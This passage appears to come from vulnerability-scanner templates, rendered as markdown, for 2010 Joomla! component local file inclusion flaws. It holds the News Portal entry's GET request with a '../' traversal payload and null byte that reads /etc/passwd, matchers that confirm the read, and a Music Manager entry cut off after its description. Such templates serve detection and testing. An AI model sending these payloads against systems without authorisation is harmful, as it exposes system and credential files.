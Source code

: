 **Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Joomla! Component News Portal 1.5.x - Local File Inclusion

## Description

- A directory traversal vulnerability in the iJoomla News Portal (com_news_portal) component 1.5.x for Joomla! allows remote attackers to read arbitrary files via a .. (dot dot) in the controller parameter to index.php.
- severity - high
- tags - cve,cve2010,joomla,lfi,edb,packetstorm

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?option=com_news_portal&controller=../../../../../../../../../../etc/passwd%00

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Joomla! Component Music Manager - Local File Inclusion

## Description

- A directory traversal vulnerability in the Music Manager component for Joomla! allows remote attackers to read arbitrary files and possibly have unspecified other impacts via a .. (dot dot) in the cid parameter to album.html.
- severity - high
- tags - cve2010,joomla,lfi,edb,cve
